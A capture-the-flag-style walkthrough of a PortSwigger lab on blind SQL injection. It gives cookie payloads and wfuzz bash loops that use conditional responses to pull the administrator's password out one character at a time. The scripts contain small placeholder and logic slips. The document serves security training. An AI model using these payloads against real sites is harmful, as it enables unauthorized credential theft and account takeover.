


# Blind SQL injection with conditional responses

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)



## Objective

The lab description states that the application uses a tracking cookie for analytics and performs an SQL operation containing the value of the submitted cookie. The application includes a Welcome back message on the page if the query returns any rows.

To solve the lab, we have to log in as `administrator`.

## Analysis

**First, we need to determine how many columns the query returns.**

Use the below payload

```bash
echo {0..9} {a..z} {A..Z} | tr ' ' '\n' > chars.txt
```

```bash
#!/bin/bash

wfuzz -X GET \
    -u "https://YOUR-LAB-ID.web-security-academy.net/" \
    -H "Cookie: TrackingId=YOUR-TRACKING-ID'+ORDER+BY+FUZZ--; session=YOUR-SESSION-KEY" \
    -w chars.txt \
    --ss 'Welcome back!'
```

Now that we have determined how many columns the query returns, let's try to access the `users` table in the database by placing the below payload on the cookie value. Hmm, we the `Welcome back!` Text is reflected in response which means our payload works.

```bash
'+UNION+SELECT+NULL+FROM+users--
```


## Solution

The lab description states that the table users have `username` and `password` columns. We can craft a payload to retrieve the `administrator` user password character by character.

**But first, let's determine the password length.**

```bash
#!/bin/bash

echo {0..30} | tr ' ' '\n' > range.txt

wfuzz -X GET \
      -u "https://YOUR-LAB-ID.web-security-academy.net/" \
      -H "Cookie: TrackingId='+UNION+SELECT+NULL+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)=FUZZ--; session=YOUR-TRACKING-ID" \
      -w range.txt \
      --ss 'Welcome back!'
```

```bash
#!/bin/bash

for c in {1..30}; do
    wfuzz -X GET \
        -u "https://YOUR-LAB-ID.web-security-academy.net/" \
        -H "Cookie: TrackingId='+UNION+SELECT+NULL+FROM+users+WHERE+username='administrator'+AND+SUBSTRING(password,$c,1)='FUZZ'--; session=YOUR-TRACKING-ID" \
        -w chars.txt \
        --ss 'Welcome back!'
done
```

After retrieving the password, log in as an `administrator` to solve the lab.


